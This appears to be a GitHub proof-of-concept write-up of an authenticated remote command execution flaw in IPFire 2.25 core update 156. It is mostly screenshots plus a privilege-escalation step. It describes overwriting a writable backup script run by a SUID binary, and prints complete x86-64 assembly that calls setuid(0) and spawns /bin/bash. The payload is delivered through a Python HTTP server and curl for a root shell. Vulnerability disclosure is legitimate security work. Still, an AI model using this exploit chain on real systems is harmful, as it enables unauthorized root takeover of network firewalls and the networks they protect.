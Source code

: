# Ipfire 2-25 (core update 156) authenticated rce

- system run command when install any packet

![packfileinstallation](https://user-images.githubusercontent.com/29048982/118332497-ddca6600-b512-11eb-800d-743975184dc6.png)

- system getting 7zip from just html

![pocpc0](https://user-images.githubusercontent.com/29048982/118332642-15391280-b513-11eb-9b6a-0465443ea6b7.png)

- and check the tmp directory

![pocpc1](https://user-images.githubusercontent.com/29048982/118332771-4dd8ec00-b513-11eb-8931-39fb4e84c8e2.png)

- version 2.25 - core update 156

![version](https://user-images.githubusercontent.com/29048982/118335575-a1016d80-b518-11eb-961b-d51230f45b96.png)

- ipfire allows run arbitrary os command as nobody after login

# Be root!

- check the suid binaries

![find-suid](https://user-images.githubusercontent.com/29048982/118407493-aa5e1780-b689-11eb-86a9-1ded561508d2.png)

- backup program run another script. /var/ipfire/backup/bin/backup.pl (it is a bash script and permission is looky good)

![backup-tespiti](https://user-images.githubusercontent.com/29048982/118407546-ded1d380-b689-11eb-8f43-d30bcab0765e.png)

- try the write in to bash script. (No error. GOOD!)

![yazma-denemesi](https://user-images.githubusercontent.com/29048982/118407615-38d29900-b68a-11eb-939e-c8d6310d1389.png)

- try run bash

![yazabilme-kanıtı](https://user-images.githubusercontent.com/29048982/118407649-661f4700-b68a-11eb-8a8b-a249ec483730.png)

- yes. we can run but it is low-privegled. we must trig to setuid(0)!
- save this and run ```alti name.asm q```
- alti is my own compile-check program in soo_deep repo.

```py
bits 64
section .data
  string db "/bin/bash",0x00
  olmadis db "basarisiz.",0x0a,0x00
  olmadil equ $-olmadis
section .text
  global main
main:
  mov rax,105
  mov rdi,0
  syscall
  cmp rax,0
  je getbash

  mov rax,1
  mov rdi,1
  mov rsi,olmadis
  mov rdx,olmadil
  syscall

  mov rax,60
  xor rdi,rdi
  syscall

getbash:
  mov rax,59
  mov rdi,string
  mov rsi,0
  mov rdx,0
  syscall
```

- and write the new program to /var/ipfire/backup/bin/backup.pl. (we can python http server and curl to write)

- and enjoy the root shell!

![image](https://user-images.githubusercontent.com/29048982/118408035-5274e000-b68c-11eb-8e1f-ec2eec6aaf2b.png)

